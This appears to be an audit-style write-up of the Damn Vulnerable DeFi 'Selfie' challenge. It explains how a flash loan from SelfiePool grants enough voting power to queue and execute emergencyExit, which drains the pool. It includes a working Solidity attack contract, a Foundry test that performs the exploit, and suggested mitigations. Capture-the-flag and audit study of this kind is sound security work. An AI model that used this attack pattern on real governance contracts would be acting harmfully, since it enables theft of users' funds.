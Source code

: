 # Critical Severity Issues

## [C-1] `SelfiePool` Flash Loan Leads to Governance Attack

**Description:** The `SelfiePool` protocol allows users to take a flash loan of any amount they desire. However, an attacker can exploit this flash loan to gain governance power and queue a proposal for the `emergencyExit` function call via a signature. After a two-day interval, the attacker executes the attack and drains all the protocol’s funds.

```javascript
function flashLoan(IERC3156FlashBorrower _receiver, address _token, uint256 _amount, bytes calldata _data) external nonReentrant returns (bool) {
        if (_token != address(token)) {
            revert UnsupportedCurrency();
        }
        token.transfer(address(_receiver), _amount);

        if (
            _receiver.onFlashLoan(msg.sender, _token, _amount, 0, _data) !=
            CALLBACK_SUCCESS
        ) {
            revert CallbackFailed();
        }

        if (!token.transferFrom(address(_receiver), address(this), _amount)) {
            revert RepayFailed();
        }

        return true;
}
```

**Impact:** An attacker leverages governance power to queue and execute the withdrawal of pool tokens to their own address.

**Attack Contract:**

```javascript
contract Attack is IERC3156FlashBorrower {
    SimpleGovernance simpleGovernance;
    DamnValuableVotes dvt;
    SelfiePool pool;

    uint256 public actionId;

    constructor(SimpleGovernance _simpleGovernance, DamnValuableVotes _token, SelfiePool _pool) {
        simpleGovernance = _simpleGovernance;
        dvt = _token;
        pool = _pool;
    }

    function onFlashLoan(address initiator, address token, uint256 amount, uint256 fee, bytes calldata data
    ) external returns (bytes32) {
        // Get voting power
        dvt.delegate(address(this));

        actionId = simpleGovernance.queueAction(
            address(pool),
            0,
            abi.encodeWithSignature("emergencyExit(address)", address(this))
        );

        dvt.approve(address(pool), amount);
        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }

    function execute() external {
        simpleGovernance.executeAction(actionId);
    }

    fallback() external payable {}
}
```

**Proof of Concept:**

1. The attacker calls the function to take a flash loan.
2. The attacker leverages the flash loan to gain voting power.
3. After a two-day period, the attacker calls the `execute` function.
4. This function internally calls `emergencyExit` from the governance contract using an encoded function selector.
5. The attacker drains all the protocol’s tokens.

**Proof of Code:**

```javascript
function testAttack() public {
        vm.startPrank(address(target));
        pool.flashLoan(
            IERC3156FlashBorrower(target),
            address(dvtVotes),
            dvtVotes.balanceOf(address(pool)),
            ""
        );

        vm.warp(block.timestamp + 2 days);
        target.execute();
        vm.stopPrank();
}
```

**Recommended Mitigation:**

1. Do not allow anyone to take a flash loan exceeding the total supply of tokens.
2. Restrict calls to only specific function selectors.
3. Implement alternative governance mechanisms to prevent such attacks.
